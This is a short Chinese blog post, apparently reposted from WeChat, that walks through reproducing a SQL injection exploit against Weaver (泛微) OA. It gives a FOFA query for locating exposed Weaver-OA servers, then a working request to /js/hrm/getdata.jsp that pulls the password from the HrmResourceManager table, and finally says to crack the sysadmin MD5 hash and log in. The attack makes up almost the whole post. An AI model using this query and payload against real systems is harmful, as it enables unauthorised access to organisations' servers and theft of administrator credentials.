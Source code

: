 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/3tuDJyUWKS8yiLRsfvn2WQ)

```
FOFA:app="Weaver-OA"
```

拿前几天网上传的 exp 复现：

查询 HrmResourceManager 表中的 password，及用户 sysadmin 的登录密码：  

```
/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ3KpdGSupNMsf5t7uL8ibC022icnPcjFYTOWibia2nq0cC4UjWoOkoTwicjvHcvwQW4EB6lrJl76IOgTQ/640?wx_fmt=png)

MD5 解密然后登录即可：  

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ3KpdGSupNMsf5t7uL8ibC0xW62aW8Licic9PgA7ZWV2liaibcHcDEOYibZeH0DEL2lNjH2lofj3ibwUC4g/640?wx_fmt=png)

公众号